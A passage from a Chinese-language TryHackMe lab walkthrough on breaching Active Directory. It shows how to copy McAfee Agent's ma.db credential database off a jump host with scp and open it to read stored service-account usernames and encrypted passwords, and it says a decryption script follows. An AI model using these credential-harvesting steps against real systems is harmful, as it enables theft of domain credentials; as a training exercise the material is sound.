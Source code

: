 ### 配置文件凭证

不过，在本任务中，我们将重点关注从集中部署的应用程序中恢复凭证。通常，这些应用程序在安装和执行阶段都需要一种方法来对域进行身份验证。McAfee Enterprise Endpoint Security 就是此类应用程序的一个例子，企业可将其用作安全端点检测和响应工具。

McAfee 将安装过程中用于连接回协调器的凭证嵌入一个名为 ma.db 的文件中。该数据库文件可通过对主机的本地访问来检索和读取，以恢复相关的 AD 服务帐户。在本练习中，我们将再次使用 THMJMP1 上的 SSH 访问。

ma.db 文件存储在一个固定位置：

```shell title="SSH Command Prompt"
thm@THMJMP1 C:\Users\THM>cd C:\ProgramData\McAfee\Agent\DB
thm@THMJMP1 C:\ProgramData\McAfee\Agent\DB>dir
 Volume in drive C is Windows 10
 Volume Serial Number is 6A0F-AA0F

 Directory of C:\ProgramData\McAfee\Agent\DB

03/05/2022  10:03 AM    <DIR>          .
03/05/2022  10:03 AM    <DIR>          ..
03/05/2022  10:03 AM           120,832 ma.db
               1 File(s)        120,832 bytes
               2 Dir(s)  39,426,285,568 bytes free
```

我们可以使用 SCP 将 ma.db 复制到我们的 AttackBox：

```shell title="Terminal"
thm@thm:~/thm# scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
thm@10.200.4.249's password:
ma.db 100%  118KB 144.1KB/s   00:00
```

要读取数据库文件，我们将使用名为 sqlitebrowser 的工具。我们可以使用以下命令打开数据库：

```shell title="Terminal"
thm@thm:# sqlitebrowser ma.db
```

使用 sqlitebrowser，我们将选择 "浏览数据" 选项并关注 AGENT_REPOSITORIES 表：

<div style={{textAlign:'center'}}>

![Sqlite 数据浏览](img/image_20231249-214940.png)

</div>

我们对第二个条目特别感兴趣，重点是 DOMAIN、AUTH_USER 和 AUTH_PASSWD 字段条目。请注意这些条目中存储的值。但是，AUTH_PASSWD 字段是加密的。幸运的是，McAfee 使用已知密钥对该字段进行了加密。因此，我们将使用下面的旧 python2 脚本来解密密码。该脚本已作为可下载的任务文件提供，或者在 AttackBox 上，可以在 `/root/Rooms/BreachingAD/task7/` 目录中找到。
